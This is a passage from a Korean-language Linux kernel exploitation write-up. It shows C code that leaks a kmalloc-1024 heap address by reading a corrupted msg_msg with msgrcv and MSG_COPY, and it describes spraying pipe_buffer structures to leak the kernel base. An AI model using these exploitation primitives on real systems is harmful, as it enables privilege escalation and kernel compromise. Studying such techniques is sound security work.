
한번에 free 된 곳에 할당될 가능성은 적으니 여러번 `sk_buff` 를 할당하게 했다. 

## **STEP3. Leak heap address**

그 후 `msgrcv()` 함수를 이용해 기존의 할당된 영역보다 큰 사이즈의 버퍼를 읽어오게 했다. 그 중에 다음 1024 청크의 `msg_msg` 헤더에서 `m_list.prev` 값을 가져오면 `kmalloc-1024` 영역의 힙 주소를 가져올 수 있다. 

```c
uint64_t leak_heap_addr()
{
    struct msg_buf* message = malloc(0x1000);
    uint64_t leaked_heap_addr;
    if (msgrcv(spray_queue[corrupted_queue_index], message, 8192 - 0x30, 1, IPC_NOWAIT | MSG_COPY) < 0)
    {
        perror("leak_heap_addr: msgrcv failed\n");
        exit(0);
    }
    leaked_heap_addr = *(uint64_t*)(&message->mtext[1024 - 0x30 + 8]);
    printf("leaked heap addr: %llx\n", leaked_heap_addr);
    return leaked_heap_addr;
}

/* ... */

    printf("[STEP3] Leak kernel heap address\n");
    leak_heap_addr();
    
    if ((leaked_heap_addr & 0xffff000000000000) != 0xffff000000000000)
    {
        printf("heap leak error\n");
        goto err;
    }
```

## **STEP4. Leak kernel base address**

이제 힙 베이스 주소를 가져왔으니, 커널 베이스 주소를 가져올 차례이다. 

일단 free 된 청크를 다시 쓰기 전에, 거기에 새로운 값을 써서 읽어 커널 베이스를 알아내야 한다. 

나는 `kmalloc-1024` 에 쓸 수 있는 구조체인 `pipe_buffer` 구조체를 스프레이한다. 

`pipe_buffer` 에 대한 설명은 [다음과 같다.](/study/linux_kernel/structures/pipe_buffer)

`pipe_buffer`를 스프레이 한 후, sk_buffer 를 read 해 `anon_pipe_buf_ops` 주소를 릭한다. 
